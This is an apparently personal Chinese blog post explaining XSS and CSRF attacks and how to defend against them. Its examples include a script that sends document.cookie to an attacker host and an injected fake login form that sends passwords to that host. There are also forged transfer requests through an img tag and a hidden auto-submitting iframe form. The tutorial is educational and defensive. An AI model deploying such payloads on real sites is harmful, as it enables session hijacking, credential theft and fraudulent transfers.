

<!DOCTYPE html>
<html>
<head><meta name="generator" content="Hexo 3.8.0">
  <meta charset="utf-8">
  
  <title>前端安全攻击 | LIUXUEWEN&#39;S BLOG</title>
  <meta name="viewport" content="width=device-width, initial-scale=1, maximum-scale=1">
  
    <meta name="keywords" content="LIUXUEWEN,LIUXUEWEN's Blog">
  
  <meta name="description" content="一、XSS（跨站脚本攻击）  1）原理：XSS其实就是Html注入问题，攻击者的恶意代码从Html输入后，没有经过严格的控制就进入了数据库，最终显示给来访的用户，导致可以在来访用户的浏览器里，以浏览用户的身份执行代码。数据流程如下：攻击者的Html输入—&amp;gt;web程序—&amp;gt;进入数据库—&amp;gt;web程序—&amp;gt;用户浏览器。   2）原因：  a、Web浏览器本身的设计不安全，浏览器能解析">
<meta name="keywords" content="前端-安全性">
<meta property="og:type" content="article">
<meta property="og:title" content="前端安全攻击">
<meta property="og:url" content="http://liuxuewen-site.github.io/2018/03/18/secure-bs-attack/index.html">
<meta property="og:site_name" content="LIUXUEWEN&#39;S BLOG">
<meta property="og:description" content="一、XSS（跨站脚本攻击）  1）原理：XSS其实就是Html注入问题，攻击者的恶意代码从Html输入后，没有经过严格的控制就进入了数据库，最终显示给来访的用户，导致可以在来访用户的浏览器里，以浏览用户的身份执行代码。数据流程如下：攻击者的Html输入—&amp;gt;web程序—&amp;gt;进入数据库—&amp;gt;web程序—&amp;gt;用户浏览器。   2）原因：  a、Web浏览器本身的设计不安全，浏览器能解析">
<meta property="og:locale" content="default">
<meta property="og:image" content="http://liuxuewen-site.github.io/2018/03/18/secure-bs-attack/1.jpg">
<meta property="og:updated_time" content="2019-01-25T10:19:59.150Z">
<meta name="twitter:card" content="summary">
<meta name="twitter:title" content="前端安全攻击">
<meta name="twitter:description" content="一、XSS（跨站脚本攻击）  1）原理：XSS其实就是Html注入问题，攻击者的恶意代码从Html输入后，没有经过严格的控制就进入了数据库，最终显示给来访的用户，导致可以在来访用户的浏览器里，以浏览用户的身份执行代码。数据流程如下：攻击者的Html输入—&amp;gt;web程序—&amp;gt;进入数据库—&amp;gt;web程序—&amp;gt;用户浏览器。   2）原因：  a、Web浏览器本身的设计不安全，浏览器能解析">
<meta name="twitter:image" content="http://liuxuewen-site.github.io/2018/03/18/secure-bs-attack/1.jpg">
  
  
    <link rel="icon" href="/favicon.ico">
  
  <link href="//cdn.bootcss.com/font-awesome/4.7.0/css/font-awesome.min.css" rel="stylesheet" type="text/css">
  <link rel="stylesheet" href="/css/style.css">
  <script src="/js/pace.min.js"></script>
  

  
  

</head>
</html>
<body>
  <div id="container">
      <header id="header">
    <div id="banner"></div>
    <div id="header-outer">
        <div id="header-menu" class="header-menu-pos animated">
            <div class="header-menu-container">
                <a href="/" class="left">
                    <span class="site-title">I AM LIUXUEWEN</span>
                </a>
                <nav id="header-menu-nav" class="right">
                    
                    <a href="/">
                        <i class="fa fa-home"></i>
                        <span>Home</span>
                    </a>
                    
                    <a href="/archives">
                        <i class="fa fa-archive"></i>
                        <span>Archives</span>
                    </a>
                    
                    <a href="/about">
                        <i class="fa fa-user"></i>
                        <span>About</span>
                    </a>
                    
                </nav>
                <a class="mobile-header-menu-button">
                    <i class="fa fa-bars"></i>
                </a>
            </div>
        </div>
        <div id="header-row">
            <div id="logo">
                <a href="/">
                    
                </a>
            </div>
            <div class="header-info">
                <div id="header-title">
                    
                    <h2>
                        I AM LIUXUEWEN
                    </h2>
                    
                </div>
                <div id="header-description">
                    
                    <h3>
                        一个 宅不住 的 IT程序员
                    </h3>
                    
                </div>
            </div>
            <nav class="header-nav">
                <div class="social">
                    
                        <a title="Github" target="_blank" href="//github.com/liuxuewen-site">
                            <i class="fa fa-github fa-2x"></i></a>
                    
                        <a title="Weibo" "="">
                            <i class="fa fa-weibo fa-2x"></i></a>
                    
                        <a title="Weixin" "="">
                            <i class="fa fa-weixin fa-2x"></i></a>
                    
                </div>
            </nav>
        </div>
    </div>
</header>
      <div class="outer">
        <section id="main" class="body-wrap"><article id="post-secure-bs-attack" class="article article-type-post" itemscope="" itemprop="blogPost">
  <div class="article-inner">
    
      <header class="article-header">
        
  
    <h1 class="post-title" itemprop="name">
      前端安全攻击
    </h1>
    <div class="post-title-bar">
      <ul>
          
              <li>
                  <i class="fa fa-book"></i>
                  
                      <a href="/categories/前端/">前端</a>
                  
              </li>
          
        <li>
          <i class="fa fa-calendar"></i>  2018-03-18
        </li>
        <li>
          <i class="fa fa-eye"></i>
          <span id="busuanzi_value_page_pv"></span>
        </li>
      </ul>
    </div>
  

          
      </header>
    
    <div class="article-entry post-content" itemprop="articleBody">
      
            
            <h3 id="一、XSS（跨站脚本攻击）"><a href="#一、XSS（跨站脚本攻击）" class="headerlink" title="一、XSS（跨站脚本攻击）"></a>一、XSS（跨站脚本攻击）</h3><p>  1）原理：XSS其实就是Html注入问题，攻击者的恶意代码从Html输入后，没有经过严格的控制就进入了数据库，最终显示给来访的用户，导致可以在来访用户的浏览器里，以浏览用户的身份执行代码。数据流程如下：攻击者的Html输入—&gt;web程序—&gt;进入数据库—&gt;web程序—&gt;用户浏览器。</p>
<p>  2）原因：<br>  a、Web浏览器本身的设计不安全，浏览器能解析和执行JS等代码，但是不会判断该数据和程序代码是否恶意。<br>  b、输入输出交互过程中没有做好安全防护，很容易会出现XSS漏洞。<br>  c、XSS攻击手段灵活多变。</p>
<p>  3）危害：<br>  a、盗取cookie<br>  <figure class="highlight bash"><table><tr><td class="gutter"><pre><span class="line">1</span><br><span class="line">2</span><br><span class="line">3</span><br><span class="line">4</span><br><span class="line">5</span><br><span class="line">6</span><br><span class="line">7</span><br><span class="line">8</span><br><span class="line">9</span><br><span class="line">10</span><br></pre></td><td class="code"><pre><span class="line">通过XSS攻击，由于注入代码是在受害者的浏览器上执行，</span><br><span class="line">因此能够很方便地窃取到受害者的Cookie信息。比如，我们只要注入类似如下的代码：</span><br><span class="line"></span><br><span class="line">&lt;script&gt;location.replace(<span class="string">"http://www.attackpage.com/record.asp?secret="</span>+document.cookie)&lt;/script&gt;</span><br><span class="line"></span><br><span class="line">当受害者的浏览器执行这段脚本的时候，就会自动访问攻击者建立的网站www.attackpage.com，</span><br><span class="line">打开其中的recourd.asp，将受害者浏览器的Cookie信息给记录下来。这样，攻击者就得到了用户的Cookie信息。</span><br><span class="line"></span><br><span class="line">得到受害者的Cookie信息后，攻击者可以很方便地冒充受害者，</span><br><span class="line">从而拥有其在目标服务器上的所有权限，相当于受害者的身份认证被窃取了。</span><br></pre></td></tr></table></figure></p>
<p>  b、钓鱼攻击<br>  <figure class="highlight bash"><table><tr><td class="gutter"><pre><span class="line">1</span><br><span class="line">2</span><br><span class="line">3</span><br><span class="line">4</span><br><span class="line">5</span><br><span class="line">6</span><br><span class="line">7</span><br><span class="line">8</span><br><span class="line">9</span><br><span class="line">10</span><br><span class="line">11</span><br><span class="line">12</span><br><span class="line">13</span><br><span class="line">14</span><br><span class="line">15</span><br><span class="line">16</span><br><span class="line">17</span><br><span class="line">18</span><br><span class="line">19</span><br><span class="line">20</span><br><span class="line">21</span><br><span class="line">22</span><br></pre></td><td class="code"><pre><span class="line">所谓钓鱼攻击就是构建一个钓鱼页面，诱骗受害者在其中输入一些敏感信息，然后将其发送给攻击者。</span><br><span class="line">利用XSS的注入脚本，我们也可以很方便地注入钓鱼页面的代码，从而引导钓鱼攻击。比如下面这样一段代码：</span><br><span class="line"></span><br><span class="line">&lt;script&gt;</span><br><span class="line">　　<span class="keyword">function</span> <span class="function"><span class="title">hack</span></span>()&#123; </span><br><span class="line">　　　　location.replace(<span class="string">"http://www.attackpage.com/record.asp?username="</span>+</span><br><span class="line">        document.forms[0].user.value + <span class="string">"password="</span> + document.forms[0].pass.value);</span><br><span class="line">　　&#125;</span><br><span class="line">&lt;/script&gt;</span><br><span class="line">&lt;form&gt;</span><br><span class="line">    &lt;H3&gt;此功能需要登录:&lt;/H3 &gt;  &lt;br&gt;</span><br><span class="line">    请输入用户名：&lt;br&gt; </span><br><span class="line">　　&lt;input <span class="built_in">type</span>=”text” id=”user”name=”user”&gt;  &lt;br&gt;</span><br><span class="line">    请输入密码：  &lt;br&gt;</span><br><span class="line">　　&lt;input <span class="built_in">type</span>=”password” name =“pass”&gt;  &lt;br&gt;</span><br><span class="line">    &lt;input <span class="built_in">type</span>=”submit”name=”login” value=”登录”onclick=”hack()”&gt;</span><br><span class="line">&lt;/form&gt;</span><br><span class="line"></span><br><span class="line">注入上面的代码后，会在原来的页面上，插入一段表单，要求用户输入自己的用户名和密码，</span><br><span class="line">而当用户点击“登录”按钮后，则会执行hack()函数，将用户的输入发送到攻击者指定的网站上去。</span><br><span class="line">这样攻击者就成功窃取了该用户的账号信息。</span><br><span class="line">和一般的钓鱼攻击不同，XSS引导的钓鱼攻击由于是对用户信任的网站页面进行修改的。</span><br></pre></td></tr></table></figure></p>
<p>  c、CSRF攻击（见下文）<br>  <figure class="highlight bash"><table><tr><td class="gutter"><pre><span class="line">1</span><br><span class="line">2</span><br><span class="line">3</span><br><span class="line">4</span><br><span class="line">5</span><br><span class="line">6</span><br><span class="line">7</span><br><span class="line">8</span><br></pre></td><td class="code"><pre><span class="line">比如我们注入如下的HTML代码：</span><br><span class="line"></span><br><span class="line">&lt;imgsrc = “http://www.bank.com/transfer.do?toAct=123456&amp;money=10000&gt;</span><br><span class="line"></span><br><span class="line">假如上面的代码中所访问的是某个银行网站的转账服务，则当受害者的浏览器运行这段脚本时，</span><br><span class="line">就会向攻击者指定的账户（示例的123456）执行转账操作。</span><br><span class="line">由于这个转账请求是在受害者的浏览器中运行的，因此浏览器也会自动将受害者的Cookie信息一并发送。</span><br><span class="line">这样，发送的请求就好像是受害者自己发送的一样，银行网站也认可这个请求的合法性，攻击者也就达到了伪造请求的目的。</span><br></pre></td></tr></table></figure></p>
<p>  d、传播恶意软件<br>  <figure class="highlight bash"><table><tr><td class="gutter"><pre><span class="line">1</span><br><span class="line">2</span><br><span class="line">3</span><br></pre></td><td class="code"><pre><span class="line">除了直接注入恶意脚本，通过XSS攻击，攻击者也可以很方便地在脚本中引入一些恶意软件，比如病毒、木马、蠕虫等。</span><br><span class="line">例如，攻击者可以在某个自己建立的页面上放置一些恶意软件，然后用XSS注入的方式，插入一段引用该页面的脚本。</span><br><span class="line">这样当受害者的浏览器执行这段脚本的时候，就会自动访问放置了恶意软件的页面，从而受到这些恶意软件的感染。</span><br></pre></td></tr></table></figure></p>
<p>  4）预防：</p>
<p>  a、输入过滤：<br>  对用户的所有输入数据进行检测，比如过滤其中的“&lt;”、“&gt;”、“/”等可能导致脚本注入的特殊字符，或者过滤“script”、“javascript”等脚本关键字，或者对输入数据的长度进行限制等等。同时，我们也要考虑用户可能绕开ASCII码，使用十六进制编码来输入脚本，因此对用户输入的十六进制编码，我们也要进行相应的过滤。严格检测每一处交互点，保证对所有用户可能的输入都进行检测和XSS过滤，能够有效地阻止XSS攻击。</p>
<p>  b、输出编码：<br>  通过前面对XSS攻击的分析可以看到，之所以会产生XSS攻击，就是因为Web应用程序将用户的输入直接嵌入到某个页面当中，作为该页面的HTML代码的一部分。因此，当Web应用程序将用户的输入数据输出到目标页面中时，用HtmlEncoder等工具先对这些数据进行编码，然后再输出到目标页面中。这样，如果用户输入一些HTML的脚本，也会被当成普通的文字，而不会成为目标页面HTML代码的一部分得到执行。</p>
<p>  c、Cookie防盗：<br>  利用XSS攻击，攻击者可以很方便地窃取到合法用户的Cookie信息。因此，对于Cookie，我们可以采取以下的措施。首先，我们要尽可能地避免在Cookie中泄露隐私，如用户名、密码等；其次，我们可以将Cookie信息利用MD5等Hash算法进行多次散列后存放；再次，为了防止重放攻击，我们也可以将Cookie和IP进行绑定，这样也可以阻止攻击者冒充正常用户的身份。</p>
<h3 id="二、CSRF（跨站请求伪造）"><a href="#二、CSRF（跨站请求伪造）" class="headerlink" title="二、CSRF（跨站请求伪造）"></a>二、CSRF（跨站请求伪造）</h3><p>  1）描述：攻击者盗用了你的身份，以你的名义发送恶意请求，对服务器来说这个请求是完全合法的，但是却完成了攻击者所期望的一个操作，比如说转账。</p>
<p>  2）原理：<br>  </p>
<p>  由上图分析我们可以知道构成CSRF攻击是有条件的：1、客户端必须有一个网站生成cookie凭证存储在浏览器中。2、该cookie没有清除，客户端又tab一个页面进行访问别的网站</p>
<p>  3）危害：<br>  a、简单级别CSRF攻击<br>  <figure class="highlight bash"><table><tr><td class="gutter"><pre><span class="line">1</span><br><span class="line">2</span><br><span class="line">3</span><br><span class="line">4</span><br><span class="line">5</span><br><span class="line">6</span><br><span class="line">7</span><br><span class="line">8</span><br><span class="line">9</span><br><span class="line">10</span><br><span class="line">11</span><br><span class="line">12</span><br><span class="line">13</span><br></pre></td><td class="code"><pre><span class="line">假设某游戏网站的虚拟币转账是采用GET方式进行操作的，样式如：</span><br><span class="line">http://www.game.com/Transfer.php?toUserId=11&amp;vMoney=1000</span><br><span class="line"></span><br><span class="line"></span><br><span class="line">此时恶意攻击者的网站也构建一个相似的链接：</span><br><span class="line">1、可以是采用图片隐藏，页面一打开就自动进行访问第三方文章：&lt;img src=<span class="string">'攻击链接'</span>&gt;</span><br><span class="line">2、也可以采用js进行相应的操作</span><br><span class="line">http://www.game.com/Transfer.php?toUserId=20&amp;vMoney=1000         <span class="comment">#toUserID为攻击的账号ID</span></span><br><span class="line"></span><br><span class="line"></span><br><span class="line">1、假若客户端已经验证并登陆www.game.com网站，此时客户端浏览器保存了游戏网站的验证cookie</span><br><span class="line">2、客户端再tab另一个页面进行访问恶意攻击者的网站，并从恶意攻击者的网站构造的链接来访问游戏网站</span><br><span class="line">3、浏览器将会携带该游戏网站的cookie进行访问，刷一下就没了1000游戏虚拟币</span><br></pre></td></tr></table></figure></p>
<p>  b、中级别CSRF攻击<br>  <figure class="highlight bash"><table><tr><td class="gutter"><pre><span class="line">1</span><br><span class="line">2</span><br><span class="line">3</span><br><span class="line">4</span><br><span class="line">5</span><br><span class="line">6</span><br><span class="line">7</span><br><span class="line">8</span><br><span class="line">9</span><br><span class="line">10</span><br><span class="line">11</span><br><span class="line">12</span><br><span class="line">13</span><br><span class="line">14</span><br><span class="line">15</span><br><span class="line">16</span><br><span class="line">17</span><br><span class="line">18</span><br><span class="line">19</span><br><span class="line">20</span><br><span class="line">21</span><br><span class="line">22</span><br><span class="line">23</span><br><span class="line">24</span><br><span class="line">25</span><br></pre></td><td class="code"><pre><span class="line">游戏网站负责人认识到了有被攻击的漏洞，进行升级改进，将由链接GET提交数据改成了表单提交数据</span><br><span class="line"></span><br><span class="line">//前台：提交数据表单</span><br><span class="line">&lt;form action=<span class="string">"./Transfer.php"</span> method=<span class="string">"POST"</span>&gt;</span><br><span class="line">　　　　&lt;p&gt;toUserId: &lt;input <span class="built_in">type</span>=<span class="string">"text"</span> name=<span class="string">"toUserId"</span> /&lt;/p&gt;</span><br><span class="line">　　　　&lt;p&gt;vMoney: &lt;input <span class="built_in">type</span>=<span class="string">"text"</span> name=<span class="string">"vMoney"</span> /&gt;&lt;/p&gt;</span><br><span class="line">　　　　&lt;p&gt;&lt;input <span class="built_in">type</span>=<span class="string">"submit"</span> value=<span class="string">"Transfer"</span> /&gt;&lt;/p&gt;</span><br><span class="line">&lt;/form&gt;</span><br><span class="line"></span><br><span class="line">//后台：验证数据表单</span><br><span class="line">&lt;?php</span><br><span class="line"> 　　　　session_start();</span><br><span class="line"> 　　　　<span class="keyword">if</span> (isset(<span class="variable">$_REQUEST</span>[<span class="string">'toUserId'</span>] &amp;&amp;　isset(<span class="variable">$_REQUEST</span>[<span class="string">'vMoney'</span>]))  <span class="comment">#验证</span></span><br><span class="line"> 　　　　&#123;</span><br><span class="line"> 　　　　     //相应的转账操作</span><br><span class="line"> 　　　　&#125;</span><br><span class="line"> ?&gt;</span><br><span class="line"> </span><br><span class="line"></span><br><span class="line"> 恶意攻击者观察网站的表单形式，并进行相应的测试，</span><br><span class="line"> 采用（http://www.game.com/Transfer.php?toUserId=20&amp;vMoney=1000）进行测试，发现仍然可以转账，</span><br><span class="line"> 那么此时游戏网站所做的更改没起到任何的防范作用，恶意攻击者只需要像上面那样进行攻击即可达到目的。</span><br><span class="line"></span><br><span class="line"></span><br><span class="line"> 总结：网站开发者的错误点在于没有使用<span class="variable">$_POST</span>进行接收数据。当<span class="variable">$_REQUEST</span>可以接收POST和GET发来的数据，因此漏洞就产生了。</span><br></pre></td></tr></table></figure></p>
<p>   c、高级别CSRF攻击<br>   <figure class="highlight bash"><table><tr><td class="gutter"><pre><span class="line">1</span><br><span class="line">2</span><br><span class="line">3</span><br><span class="line">4</span><br><span class="line">5</span><br><span class="line">6</span><br><span class="line">7</span><br><span class="line">8</span><br><span class="line">9</span><br><span class="line">10</span><br><span class="line">11</span><br><span class="line">12</span><br><span class="line">13</span><br><span class="line">14</span><br><span class="line">15</span><br><span class="line">16</span><br><span class="line">17</span><br><span class="line">18</span><br><span class="line">19</span><br><span class="line">20</span><br><span class="line">21</span><br><span class="line">22</span><br><span class="line">23</span><br><span class="line">24</span><br><span class="line">25</span><br><span class="line">26</span><br><span class="line">27</span><br><span class="line">28</span><br><span class="line">29</span><br><span class="line">30</span><br><span class="line">31</span><br><span class="line">32</span><br><span class="line">33</span><br><span class="line">34</span><br><span class="line">35</span><br><span class="line">36</span><br><span class="line">37</span><br><span class="line">38</span><br><span class="line">39</span><br><span class="line">40</span><br><span class="line">41</span><br><span class="line">42</span><br><span class="line">43</span><br><span class="line">44</span><br><span class="line">45</span><br><span class="line">46</span><br><span class="line">47</span><br><span class="line">48</span><br><span class="line">49</span><br><span class="line">50</span><br><span class="line">51</span><br></pre></td><td class="code"><pre><span class="line">游戏网站开发者认识到了错误，将进行下一步的改进与升级，将采用<span class="variable">$_POST</span>来接收数据</span><br><span class="line"></span><br><span class="line">//后台：验证数据表单</span><br><span class="line">&lt;?php</span><br><span class="line"> 　　　　session_start();</span><br><span class="line"> 　　　　<span class="keyword">if</span> (isset(<span class="variable">$_POST</span>[<span class="string">'toUserId'</span>] &amp;&amp;　isset(<span class="variable">$_POST</span>[<span class="string">'vMoney'</span>]))  <span class="comment">#验证</span></span><br><span class="line"> 　　　　&#123;</span><br><span class="line"> 　　　　     //相应的转账操作</span><br><span class="line"> 　　　　&#125;</span><br><span class="line"> ?&gt;</span><br><span class="line"></span><br><span class="line"></span><br><span class="line"> 此时，恶意攻击者根据游戏虚拟币转账表单进行伪造了一份一模一样的转账表单，并且嵌入到iframe中</span><br><span class="line"></span><br><span class="line"> //攻击者主页</span><br><span class="line"> &lt;!DOCTYPE html&gt;</span><br><span class="line"> &lt;html&gt;</span><br><span class="line"> &lt;head&gt;</span><br><span class="line">     &lt;meta charset=<span class="string">"utf-8"</span>&gt;</span><br><span class="line">     &lt;title&gt;攻击者主机页面&lt;/title&gt;</span><br><span class="line">     &lt;script <span class="built_in">type</span>=<span class="string">"text/javascript"</span>&gt;</span><br><span class="line">      <span class="keyword">function</span> csrf()</span><br><span class="line">      &#123;</span><br><span class="line">          window.frames[<span class="string">'steal'</span>].document.forms[0].submit();</span><br><span class="line">      &#125;</span><br><span class="line">     &lt;/script&gt;</span><br><span class="line"> &lt;/head&gt;</span><br><span class="line"> &lt;body onload=<span class="string">"csrf()"</span>&gt;</span><br><span class="line">  &lt;iframe name=<span class="string">"steal"</span> display=<span class="string">"none"</span> src=<span class="string">"./xsrf.html"</span>&gt;</span><br><span class="line">  &lt;/iframe&gt;</span><br><span class="line"> &lt;/body&gt;</span><br><span class="line"> &lt;/html&gt;</span><br><span class="line"></span><br><span class="line"> //表单页面嵌入：</span><br><span class="line"> &lt;!DOCTYPE html&gt;</span><br><span class="line"> &lt;html&gt;</span><br><span class="line"> &lt;head&gt;</span><br><span class="line">     &lt;title&gt;csrf&lt;/title&gt;</span><br><span class="line"> &lt;/head&gt;</span><br><span class="line"> &lt;body&gt;</span><br><span class="line">  &lt;form display=<span class="string">"none"</span> action=<span class="string">"http://www.game.com/Transfer.php"</span> method=<span class="string">"post"</span> &gt;</span><br><span class="line">      &lt;input <span class="built_in">type</span>=<span class="string">"hidden"</span> name=<span class="string">"toUserID"</span> value=<span class="string">"20"</span>&gt;</span><br><span class="line">      &lt;input <span class="built_in">type</span>=<span class="string">"hidden"</span> name=<span class="string">"vMoney"</span> value=<span class="string">"1000"</span>&gt;</span><br><span class="line">  &lt;/form&gt;</span><br><span class="line"> &lt;/body&gt;</span><br><span class="line"> &lt;/html&gt;</span><br><span class="line"></span><br><span class="line"> 客户端访问恶意攻击者的页面一样会遭受攻击</span><br><span class="line"></span><br><span class="line"> 总结：CSRF攻击是源于Web的隐式身份验证机制！</span><br><span class="line"> Web的身份验证机制虽然可以保证一个请求是来自于某个用户的浏览器，但却无法保证该请求是用户批准发送的</span><br></pre></td></tr></table></figure></p>
<p>  4）预防：</p>
<p>  a、验证码：</p>
<p>  验证码，强制用户必须与应用进行交互，才能完成最终请求。在通常情况下，验证码能很好遏制CSRF攻击。但是出于用户体验考虑，网站不能给所有的操作都加上验证码。因此验证码只能作为一种辅助手段，不能作为主要解决方案。</p>
<p>  b、Token：</p>
<p>  CSRF攻击之所以能够成功，是因为攻击者利用用户未失效的cookie，发送了一些恶意请求（请求携带的信息攻击者设置），请求中所有的用户验证信息都存在于Cookie中，因此攻击者可以在不知道这些验证信息的情况下直接利用用户自己的Cookie来通过安全验证。由此可知，抵御CSRF攻击的关键在于：在请求中放入攻击者所不能伪造的信息，并且该信息不存在于Cookie之中。</p>
<p>  所以：<br>  1、用户访问某个表单页面时<br>  2、服务端生成一个Token（随机，不可预测），放在用户的Session中，或者浏览器的Cookie中。【这里已经不考虑XSS攻击】<br>  3、在页面表单附带上Token参数。<br>  4、用户提交请求后， 服务端验证表单中的Token是否与用户Session（或Cookies）中的Token一致，一致为合法请求，不是则非法请求。</p>
<p>  提示：<br>  该方法需要为每个请求都带上Token参数（对于请求太多的情况，可以在每次页面加载时，使用javascript遍历整个dom树，对dom中所有的a和form标签后加入token）。一般token在用户登录时就返回给客户端存起来（localStorage）。</p>
<p>  但是：<br>  该方法有一个缺点是难以保证 token 本身的安全。特别是在一些论坛之类支持用户自己发表内容的网站，黑客可以在上面发布自己个人网站的地址。由于系统也会在这个地址后面加上 token，所以黑客可以在自己的网站上得到这个 token，并马上就可以发动 CSRF 攻击。为了避免这一点，系统可以在添加 token 的时候增加一个判断，如果这个链接是链到自己本站的，就在后面添加 token，如果是通向外网则不加。不过，即使这个 csrf token 不以参数的形式附加在请求之中，黑客的网站也同样可以通过 Referer 来得到这个 token 值以发动 CSRF 攻击。这也是一些用户喜欢手动关闭浏览器 Referer 功能的原因。</p>
<p>  c、验证 HTTP Referer 字段：</p>
<p>  在 HTTP 头中有一个字段叫 Referer，记录了该 HTTP 请求的来源地址。</p>
<p>  在通常情况下，访问网站如：<a href="http://bank.example/withdraw?account=bob&amp;amount=1000000&amp;for=Mallory，" target="_blank" rel="noopener">http://bank.example/withdraw?account=bob&amp;amount=1000000&amp;for=Mallory，</a><br>  用户须先登陆 bank.example，然后通过点击页面上的按钮来触发转账事件。这时该转帐请求的 Referer 值就会是转账按钮所在的页面的 URL，通常是以 bank.example 域名开头的地址。而如果黑客要对银行网站实施 CSRF 攻击，他只能在他自己的网站构造请求，该请求的 Referer 是指向黑客自己的网站。</p>
<p>  因此，要防御 CSRF 攻击，银行网站只需要对于每一个转账请求验证其 Referer 值，如果是以 bank.example 开头的域名，则说明该请求是来自银行网站自己的请求，是合法的。如果 Referer 是其他网站的话，则有可能是黑客的 CSRF 攻击，拒绝该请求。</p>
<p>  这种方法的好处是简单易行，网站的普通开发人员不需要操心 CSRF 的漏洞，只需要在最后给所有安全敏感的请求统一增加一个拦截器来检查 Referer 的值就可以。特别是对于当前现有的系统，不需要改变当前系统的任何已有代码和逻辑，没有风险，非常便捷。</p>
<p>  但是这种方法并非万无一失，Referer 的值是由浏览器提供的，每个浏览器对于 Referer 的具体实现可能有差别，而且不能保证浏览器自身没有安全漏洞。使用验证 Referer 值的方法就是把安全性都依赖于第三方（即浏览器）来保障，从理论上来讲，这样并不安全。事实上，对于某些浏览器，比如 IE6 或 FF2，目前已经有一些方法可以篡改 Referer 值。如果 bank.example 网站支持 IE6 浏览器，黑客完全可以把用户浏览器的 Referer 值设为以 bank.example 域名开头的地址，这样就可以通过验证，从而进行 CSRF 攻击。</p>
<p>  即便是使用最新的浏览器，黑客无法篡改 Referer 值，这种方法仍然有问题。因为 Referer 值会记录下用户的访问来源，有些用户认为这样会侵犯到他们自己的隐私权，特别是有些组织担心 Referer 值会把组织内网中的某些信息泄露到外网中。因此，用户自己可以设置浏览器使其在发送请求时不再提供 Referer。当他们正常访问银行网站时，网站会因为请求没有 Referer 值而认为是 CSRF 攻击，拒绝合法用户的访问。</p>
<p>标注：</p>
<ul>
<li>参考资料1：<a href="https://www.cnblogs.com/phpstudy2015-6/p/6771239.html" target="_blank" rel="noopener">https://www.cnblogs.com/phpstudy2015-6/p/6771239.html</a></li>
<li>参考资料2：<a href="https://www.cnblogs.com/drawwindows/archive/2013/03/11/2954259.html" target="_blank" rel="noopener">https://www.cnblogs.com/drawwindows/archive/2013/03/11/2954259.html</a></li>
</ul>

            <div class="post-copyright">
    <div class="content">
        <p>最后更新： 2019年01月25日 18:19</p>
        <p>原始链接： <a class="post-url" href="/2018/03/18/secure-bs-attack/" title="前端安全攻击">http://liuxuewen-site.github.io/2018/03/18/secure-bs-attack/</a></p>
        <footer>
            <a href="http://liuxuewen-site.github.io">
                
                liuxuewen
            </a>
        </footer>
    </div>
</div>

      
        
            
<div class="page-reward">
    <a id="rewardBtn" href="javascript:;">赏</a>
</div>

<div id="reward" class="post-modal reward-lay">
    <a class="close" href="javascript:;" id="reward-close">×</a>
    <span class="reward-title">
        <i class="icon icon-quote-left"></i>
        请我吃糖~
        <i class="icon icon-quote-right"></i>
    </span>
    <div class="reward-content">
        
        <div class="reward-code">
            
        </div>
        <div class="reward-select">
            
            <label class="reward-select-item checked" data-id="wechat" data-wechat="/images/wechat_code.jpg">
                
            </label>
            
            
            <label class="reward-select-item" data-id="alipay" data-alipay="/images/alipay_code.jpg">
                
            </label>
            
        </div>
    </div>
</div>


        
    </div>
    <footer class="article-footer">
        
        
<div class="post-share">
    <a href="javascript:;" id="share-sub" class="post-share-fab">
        <i class="fa fa-share-alt"></i>
    </a>
    <div class="post-share-list" id="share-list">
        <ul class="share-icons">
          <li>
            <a class="weibo share-sns" target="_blank" href="http://service.weibo.com/share/share.php?url=http://liuxuewen-site.github.io/2018/03/18/secure-bs-attack/&title=《前端安全攻击》 — LIUXUEWEN'S BLOG&pic=http://liuxuewen-site.github.ioimages/logo.png" data-title="微博">
              <i class="fa fa-weibo"></i>
            </a>
          </li>
          <li>
            <a class="weixin share-sns" id="wxFab" href="javascript:;" data-title="微信">
              <i class="fa fa-weixin"></i>
            </a>
          </li>
          <li>
            <a class="qq share-sns" target="_blank" href="http://connect.qq.com/widget/shareqq/index.html?url=http://liuxuewen-site.github.io/2018/03/18/secure-bs-attack/&title=《前端安全攻击》 — LIUXUEWEN'S BLOG&source=" data-title="QQ">
              <i class="fa fa-qq"></i>
            </a>
          </li>
          <li>
            <a class="facebook share-sns" target="_blank" href="https://www.facebook.com/sharer/sharer.php?u=http://liuxuewen-site.github.io/2018/03/18/secure-bs-attack/" data-title="Facebook">
              <i class="fa fa-facebook"></i>
            </a>
          </li>
          <li>
            <a class="twitter share-sns" target="_blank" href="https://twitter.com/intent/tweet?text=《前端安全攻击》 — LIUXUEWEN'S BLOG&url=http://liuxuewen-site.github.io/2018/03/18/secure-bs-attack/&via=http://liuxuewen-site.github.io" data-title="Twitter">
              <i class="fa fa-twitter"></i>
            </a>
          </li>
          <li>
            <a class="google share-sns" target="_blank" href="https://plus.google.com/share?url=http://liuxuewen-site.github.io/2018/03/18/secure-bs-attack/" data-title="Google+">
              <i class="fa fa-google-plus"></i>
            </a>
          </li>
        </ul>
     </div>
</div>
<div class="post-modal wx-share" id="wxShare">
    <a class="close" href="javascript:;" id="wxShare-close">×</a>
    <p>扫一扫，分享到微信</p>
    
</div>

<div class="mask"></div>

        
        <ul class="article-footer-menu">
            
            
  <li class="article-footer-tags">
    <i class="fa fa-tags"></i>
      
    <a href="/tags/前端-安全性/" class="color2">前端-安全性</a>
      
  </li>

        </ul>
        
    </footer>
  </div>
</article>


    <aside class="post-toc-pos post-toc-top" id="post-toc">
        <nav class="post-toc-wrap">
            <ol class="post-toc"><li class="post-toc-item post-toc-level-3"><a class="post-toc-link" href="#一、XSS（跨站脚本攻击）"><span class="post-toc-text">一、XSS（跨站脚本攻击）</span></a></li><li class="post-toc-item post-toc-level-3"><a class="post-toc-link" href="#二、CSRF（跨站请求伪造）"><span class="post-toc-text">二、CSRF（跨站请求伪造）</span></a></li></ol>
        </nav>
    </aside>
    

<nav id="article-nav">
  
    <a href="/2018/04/02/ES6-ryf-promise/" id="article-nav-newer" class="article-nav-link-wrap">

      <span class="article-nav-title">
        <i class="fa fa-hand-o-left" aria-hidden="true"></i>
        
          《ES6标准入门》之异步编程Promise
        
      </span>
    </a>
  
  
    <a href="/2018/03/18/JS-bs-scope/" id="article-nav-older" class="article-nav-link-wrap">
      <span class="article-nav-title">作用域与作用域链</span>
